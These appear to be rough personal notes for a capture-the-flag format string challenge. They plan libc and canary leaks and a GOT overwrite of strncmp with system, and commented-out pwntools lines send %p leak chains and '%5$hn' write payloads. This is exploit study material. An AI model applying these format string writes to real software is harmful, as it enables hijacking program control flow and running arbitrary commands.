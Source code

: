 Another format string problem 
There is a pointer leak 
Calculate libc offset 
leak the canary with the format string as well?
Where is the arbitrary write coming from though?
fprintf also contains a format string vulnerability?
Need to write to lower n bytes and upper n bytes again 
This will be done in the fmt string thing 
Need two different leaks I think 
Write what where?
Write system? 


break up into two different chunks 
upper 4 bytes, lower 4 bytes
actually, upper bytes are nbasically the same so it's fine 

write @ strncmp address 
need to write 
each % thing in printf is an argument 

# Steps:
- [x] Leak libc  
- [ ] leak executable 
- [ ] overwrite got table address with something else?
    - system call maybe?
- [ ] write random value first instead of system 



""" l = r.recvline() """
""" print("l: ", l) """
""" print(r.recvline()) """
""" r.sendlineafter(">> ", p64(0x4141414142424242) + b" %p.%p.%p.%p.%p.%p.%p") """
# overwrite the lower 4 bytes to be system instead
""" lower_amnt_to_write = "%" + hex(lower - 8) + "x" """
""" r.sendlineafter(">> ", p64(strncmp_got) + lower_amnt_to_write.encode() + b"%5$hn") """



""" gdb.attach(r) """
""" time.sleep(1) """
""" prepend = b"%5$p.%6$p.%7$p.%8$p.%9$p.%10$p.%11$p.%12$p"  """
""" print("length: ", len(prepend)) """
""" r.sendlineafter(">> ", prepend + p64(strncmp_got)) """

""" r.sendlineafter(">> ", p64(strncmp_got) + b"%n") """
""" r.sendlineafter(">> ", p64(0x4141414142424242) + b"%5$p") """
# not readign the rest because of null bytes
# i think zero padding works?
# Okay so maybe call twice 

